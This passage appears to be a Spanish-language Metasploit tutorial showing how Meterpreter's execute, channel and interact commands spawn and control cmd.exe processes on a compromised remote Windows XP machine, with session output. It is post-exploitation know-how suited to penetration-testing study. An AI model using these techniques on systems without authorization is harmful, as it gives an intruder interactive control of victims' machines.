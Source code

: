 channel <core>, execute <Stdapi System Commands>, interact<core> read<core>, write<core>, close<core>
Para definir diferentes procesos que se ejecuten en la maquina remota y posteriormente declararlos como canales para ser manejados por meterpreter por medio del uso del comando channel:

meterpreter > execute -f cmd -c

Process 3356 created.

Channel 11 created.

meterpreter > getpid

Current pid: 1836

meterpreter > execute -f cmd -c

Process 2772 created.

Channel 12 created.

meterpreter > execute -f cmd -c

Process 2860 created.

Channel 13 created.

Como se ha podido apreciar, se han creado diferentes canales con un proceso asociado, posteriormente es posible consultarlos con el comando channel:

meterpreter > channel -l

Id Class Type

– —– —-

11 3 stdapi_process

12 3 stdapi_process

13 3 stdapi_process

Si se desea interactuar con alguno de esto canales, se utiliza el comando “interact” para definir alguno de los canales creados y posteriormente interactuar con él.

meterpreter > interact 11

Interacting with channel 11…

Microsoft Windows XP [Version 5.1.2600]

(C) Copyright 1985-2001 Microsoft Corp.

c:\>exit

meterpreter > channel -l

Id Class Type

– —– —-

12 3 stdapi_process

13 3 stdapi_process
